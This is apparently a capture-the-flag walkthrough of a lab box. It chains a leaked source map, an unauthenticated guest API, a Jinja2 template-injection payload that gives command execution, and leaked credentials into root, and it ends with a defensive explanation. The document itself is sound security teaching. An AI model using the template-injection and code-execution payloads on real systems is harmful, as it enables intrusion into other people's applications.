









# HackSmarter: "Casino" (Medium) Walkthrough

A Linux box from Tyler Ramsbey with a fun theme: you're pentesting the "Hack Smarter World" luxury resort, and all you're handed is the IP of their guest WiFi captive portal. No creds, no other info. The goal is a user flag and a root flag.

Everything below is from my Kali box over the lab VPN. Short version of the path: a leaked JS source map points at a hidden API, the API hands out valid guest logins, the profile page has a server-side template injection that gives code execution, and from there it's a chain of sloppy file permissions and a password left lying in a log file all the way to root.



---

## Recon

Standard nmap to start.

```bash
nmap -Pn -sV -p- 10.1.98.7
```



Three things open:

* **22** - OpenSSH on Ubuntu 24.04
* **80** - a Werkzeug dev server (so it's a Flask app), titled "Hack Smarter World - Guest WiFi & Portal"
* **2222** - a second SSH, this one on Debian

Two different SSH versions on one host is a strong hint that there's a container in the mix. The Flask captive portal on port 80 is clearly the front door, so that's where I went.

## The captive portal and a leaked source map

The portal redirects everything to `/login`, which wants a **room number** and a **guest last name**. I don't have either, so I started reading the page. The login template pulls in `/static/js/app.min.js`, and that file ends with a sourcemap comment pointing at `app.min.js.map`.

Source maps are meant for debugging, and they ship the original source. This one leaked a helper that calls an API endpoint that isn't referenced anywhere else:

```bash
curl -s http://10.1.98.7/static/js/app.min.js.map
```



```js
// Front-Desk Kiosk API verification helper
async function checkRoomStatus(roomNum) {
  const res = await fetch('/api/v1/rooms/status?status=occupied');
  ...
}
```

So there's a hidden `/api/v1/rooms/status` endpoint. Let me hit it.

```bash
curl -s 'http://10.1.98.7/api/v1/rooms/status?status=occupied' | jq
```



It dumps the entire occupancy table: 100 rooms, each with a `room_number`, a `guest_name` (the last name), and a tier. That is exactly the room number plus last name the login form wants. The `status` parameter looked injectable at first (it gets reflected back in a `filter` field), but every value I threw at it returns the same 100 rooms, so it's a decoy, not SQL.

Either way, I now have 100 valid logins. I logged in as room **105 / Smith** and landed on the guest dashboard.

## SSTI on the profile page

The dashboard has a "Profile" page with one editable field: a **Preferred Display Name**, with helper text saying the greeting "appears on your dashboard, device connection logs, and smart room controls." Any time user input gets echoed back into a Flask page, the first thing I try is template injection.

Setting the name to `{{7*7}}` and looking at the dashboard showed `{{7*7}}` literally, so the dashboard renders it safely. But the **profile page itself** puts the name back into the `value="..."` of the input box, and that one is rendered with `render_template_string`. Setting the name to `{{7*7}}{{config}}` and reloading `/profile`:



```
value="AAA49BBB<Config { 'DEBUG': False, ...
   'SECRET_KEY': '29977f8f6b306f8bad0873dc0927fd9aa7d98489ddd57029', ... }>CCC"
```

`{{7*7}}` evaluated to `49`, and `{{config}}` dumped the entire Flask config, including the `SECRET_KEY`. That's a full Jinja2 SSTI. The dashboard escaped it, the profile view did not, which is the classic "one sink forgot to be safe" bug.

## SSTI to RCE

From SSTI to command execution is a short hop with the usual Jinja gadget. I wrapped it so the output comes back base64 (keeps quotes and newlines from breaking the HTML attribute it lands in):

```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```



```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
47819c212b5d        # docker container
```

Code execution as `www-data` inside a container. The user flag is right there in george's home.

## User flag and loot

```bash
cat /home/george/user.txt
```



```
HSM{g30rg3_n33ds_b3tt3r_ssh_k3y_p3rms}
```

The flag basically tells you the next step. george's `~/.ssh/` is world-readable, including his **private key** (`-rw-r--r--`). And his `.bash_history` was left behind with a couple of gifts:

```
su david
DavidPass2026!#
mysql -u david -p'DavidPass2026!#' -h 127.0.0.1 resort_db
```

So david's password is sitting in george's shell history.

## david, the adm group, and a password in a log

Neither the host SSH (22) nor root would take a password, but david's password works on the container SSH (2222). david can't sudo, but he's in the **`adm`** group, which means he can read `/var/log`. george's history had mentioned a provisioning log, so I went looking:

```bash
cat /var/log/provisioning.log
```



```
[DEBUG] Saved system root sync credential: R3s0rt_Sup3r_S3cr3t_R00t_2026!
```

A provisioning script logged the root password in cleartext. From david, `su root` with that password drops me straight to a root shell:

```
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
HSM{r3s0rt_w1f1_c0mpete_syst3m_pwn3d!}
```

## Flags

```
user: HSM{g30rg3_n33ds_b3tt3r_ssh_k3y_p3rms}
root: HSM{r3s0rt_w1f1_c0mpete_syst3m_pwn3d!}
```



---

## Why this worked, and how you'd stop it

The whole box is a chain of small, individually "minor" mistakes that line up into a full compromise:

- **A source map in production** leaked an internal API path. Ship minified assets without the `.map`, or at least don't expose internal endpoints through them.
- **An over-sharing API.** `/api/v1/rooms/status` returned every guest's room and name with no auth. That is the login material for the whole portal.
- **SSTI from one unsafe sink.** The dashboard escaped the display name correctly, but the profile view rendered it with `render_template_string`. User input should never be concatenated into a template string, ever. This was the actual RCE.
- **World-readable SSH private key.** `chmod 644 id_rsa` (visible in the bash history) is what let www-data walk into george.
- **Secrets in shell history and logs.** david's password in `.bash_history` and the root password in `provisioning.log` turned a low-priv container user into root. Logs and history are not secret stores, and the `adm` group is wider than people think.

None of these is exotic. That's the point. Follow the chain, and a guest WiFi login becomes root.
